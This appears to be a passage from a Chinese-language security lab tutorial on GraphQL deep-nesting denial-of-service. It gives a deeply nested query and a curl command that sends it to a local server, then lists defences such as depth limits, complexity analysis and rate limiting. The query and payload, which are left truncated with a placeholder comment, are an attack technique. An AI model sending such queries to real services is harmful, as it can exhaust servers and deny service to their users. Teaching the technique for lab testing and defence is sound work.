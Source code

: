 ### 3.2 攻击步骤
在实验环境中，我们可以通过以下步骤进行GraphQL深度查询DoS攻击。

#### 3.2.1 构造深度嵌套查询
使用以下GraphQL查询语句进行深度嵌套查询：

```graphql
query {
  user(id: "1") {
    posts {
      comments {
        author {
          posts {
            comments {
              author {
                posts {
                  comments {
                    author {
                      posts {
                        comments {
                          author {
                            # 继续嵌套...
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

#### 3.2.2 发送查询请求
使用`curl`命令或Postman工具发送查询请求：

```bash
curl -X POST -H "Content-Type: application/json" -d '{"query":"{user(id: \"1\") {posts {comments {author {posts {comments {author {posts {comments {author {posts {comments {author {posts {comments {author {# 继续嵌套...}}}}}}}}}}}}}}}}"}' http://localhost:4000/graphql
```

#### 3.2.3 观察服务器响应
观察服务器的响应时间和资源消耗情况，确认是否出现DoS现象。

### 3.3 防御措施
为了防止GraphQL深度查询DoS攻击，可以采取以下措施：
- **查询深度限制**：限制查询的最大深度，例如使用`graphql-depth-limit`库。
- **查询复杂度分析**：分析查询的复杂度，限制复杂查询的执行。
- **请求速率限制**：限制客户端的请求速率，防止批量查询攻击。
